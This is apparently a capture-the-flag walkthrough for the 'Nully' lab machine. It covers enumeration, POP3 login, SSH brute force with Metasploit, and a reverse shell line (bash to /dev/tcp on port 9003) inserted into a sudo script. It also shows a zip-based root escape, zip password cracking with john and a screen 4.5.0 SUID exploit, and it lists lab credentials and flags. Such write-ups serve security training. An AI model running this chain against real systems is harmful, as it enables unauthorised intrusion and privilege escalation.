 <pre>
[x] This machine uses Docker and Portainer so don't attack 80, 8000 and 9000 ports.

Switch between 3 containers webmail(c)-webserver(c)-database(c)

Edit hosts file
$ vi /etc/hosts/
    *Machine IP    nully.ctf

Enum:
    Open ports: [x] => ports we can not attack!
        [x] 80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
        110/tcp  open  pop3        Dovecot pop3d
        2222/tcp open  ssh         OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
1433/tcp closed ms-sql-s
        [x] 8000/tcp open  nagios-nsca Nagios NSCA
        [x] 9000/tcp open  cslistener?

110 pop3 enum: tree
In port 80 we will see some pop3 creds:
    To start, check your email on port 110 with authorization data 
pentester:qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
    Login via telnet
        $ telnet nully.ctf 110
        .user pentester
            +OK
        .pass qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
            +OK Logged in.
    Let’s see LIST of messages
        .LIST
            +OK 1 messages:
    1 657
        Let’s read message 1
.TOP 1 5
    *possible ssh user: Bob Smith(bob/smith)
End line from message:
    Sorry, I forgot my password, but I remember the password was simple.
        Possible ssh brute force.

2222 ssh enum: tree
Lets brute force with metasploit
    $ msfconsole
    $ use auxiliary/scanner/ssh/ssh_login
            Use this options
BLANK_PASSWORDS   false    
BRUTEFORCE_SPEED  5           
DB_ALL_CREDS      false            
   DB_ALL_PASS       false            
   DB_ALL_USERS      false            
   PASSWORD                      
   PASS_FILE         bobbywordlist
   RHOSTS            nully.ctf        
   RPORT             2222             
   STOP_ON_SUCCESS   false            
   THREADS           5                
   USERNAME          bob              
   USERPASS_FILE                      
   USER_AS_PASS      false            
   USER_FILE                          
   VERBOSE           true    
*found this creds for ssh login
    success: 'bob:bobby1985'

And login:
    $ ssh bob@nully.ctf -p 2222
bobby1985

Lets escalate container
$ sudo -l
    (my2user) NOPASSWD: /bin/bash /opt/scripts/check.sh

$vi /opt/scripts/check.sh
    Add a reverse shell in start of script:
        bash -c 'exec bash -i >& /dev/tcp/192.168.1.9/9003 0>&1'
    Add in the end of file command : whoami
        And save it!
Make a netcat listener and run the script:
    $ rlwrap nc -lvnp 9003

    Run script:
$ sudo -u my2user /bin/bash /opt/scripts/check.sh
    *And got my2user!

Lets got root privilege escalation:
    $ sudo -l
        (root) NOPASSWD: /usr/bin/zip

    $ TF=$(mktemp -u)
    $ sudo zip $TF /etc/hosts -T -TT 'sh #' 
        *And got root!

Switch to database hostname:
    $ nmap 172.17.0.1/24
        *IP: 172.17.0.5
    $ ftp
        open 172.17.0.5
            Anonymous login

    And find inside dir .backup.zip
        $ get .backup.zip
    $ cat .backup.zip | base64
        $ touch backup
            $ vi backup
*Paste base64 hash
    $ base64 -d back > file.zip
        $ zip2john file.zip > ziphash
    $ john ziphash -wordlist=rockyou.txt
        Creds: 1234567890
    $ unzip file.zip
        *And cat creds.txt
            donald:HBRLoCZ0b9NEgh8vsECS

Go to bob terminal and login via ssh:
    $ ssh donald@172.17.0.5
        HBRLoCZ0b9NEgh8vsECS

    Priv esc:
        $ find / -perm -4000 -type f -ls 2>/dev/null
            1 root     root      1860280 Aug 27 09:50 /usr/bin/screen-4.5.0
        kali$ searchsploit "screen 4.5.0"
            exploits/linux/local/41154.sh
                Mirror this exploit
        $ cd /tmp
        $ touch exploit.sh
            $ vi exploit.sh
                Paste the code from 41154.sh
        $ chmod +x exploit.sh
            And run it!
        $ ./exploit.sh
        And got root!
        
    

Flag1: 2c393307906f29ee7fb69e2ce59b4c8a
Flag2: 6cb25d4789cdd7fa1624e6356e0d825b
Flag2: 6cb25d4789cdd7fa1624e6356e0d825b                                            

Congratulations on getting the final flag!
You completed the Nully Cybersecurity CTF.
I will be glad if you leave a feedback.

</pre>
